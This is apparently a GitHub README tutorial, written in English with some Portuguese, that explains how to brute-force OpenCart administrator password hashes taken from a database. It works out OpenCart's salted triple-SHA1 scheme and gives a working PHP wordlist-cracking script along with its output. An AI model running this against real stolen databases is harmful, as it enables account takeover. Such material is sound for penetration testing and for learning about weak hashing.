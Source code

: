 # Brute Force Attack In OpenCart Stored Passwords.
In this little tutorial I demonstrate how to perform a brute force attack based in word lists on passwords stored in OpenCart application databases.


## SCENERY
- You have access to the database of an application that uses OpenCart.
- You query the Password Hash and Salt in the administrator table and you get the following result:

| password      						  | salt    | email             | status | username    | lastname | ip        | firstname |
|-----------------------------------------|---------|-------------------|--------|-------------|----------|-----------|-----------|
|f2e9efd4a366507c5b1cba7749659d93d61ae335 |oInuc412L| admin@pentest-server.com 	| 1      | Admin       | das ganbi| 127.0.0.1 | developer |


## PROBLEM
You are not familiar with the OpenCart password encryption system, so you will try to unmask this `hash` with brute force using services that are based on simple SHA1 encryption.

```php
#exemple:

<?php
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlist_demo.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($string);
   if($hashed==$password){echo "PASSWORD: ".$string;} else{}
}
?>
```


The problem is that `$password` is not simply a string encrypted with SHA1, or MD5, or SHA1 (MD5) ... Anyway, a usual brute-force script based on these encryption templates would hardly generate a` hash` equal to `hash` that you want to 'unmask'.

## SOLUCTION
We need to create our own script that will search the hash string in the correct form.
And what would be the correct way?

SE CHECARMOS O ARQUIVO PHP QUE FAZ A AUTENTICAÇÃO DO ADMIN NO OPENCART
`\opencart\system\library\user.php`

WE FIND THE FOLLOWING CODE:
```
$user_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "user WHERE username = '" . $this->db->escape($username) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1'");
```

INTERESTING PART:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

ADAPTING THE CODE WE HAVE:
```
$password=SHA1($salt.SHA1($salt.SHA1($password)));
```

**obs**: I ignored this part `OR password = '" . $this->db->escape(md5($password)) . "')` since we tested our hash and we already know that it is SHA1, right?


## Now we know how to encrypt the strings of our wordlist to compare with the hash found in the admin table.

A simple php script to test brute force on OpenCart passwords would look like this:


```php
#exemple:

<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlist_demo.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($salt.SHA1($salt.SHA1($string)));
   if($hashed==$password){echo "PASSWORD: ".$string;} else{}
}
?>
```

```
C:\Users\demo\open-cript-master>php opencript.php
PASSWORD: 12345
```

## Final considerations
- the attack I did was using word list, but you can implement for other tests. Use your imagination.
- If any word is wrong do not blame me, Blame the translator. I am Brazilian.

## Fonts
- myself

## Test my tool based on this article
[opencript - OPENCART PASSWORD DECRYPTOR BASED ON WORD LIST](https://github.com/pabloverlly/open-cript)

###### _NEED ME? [pablov3rlly gmail com]_
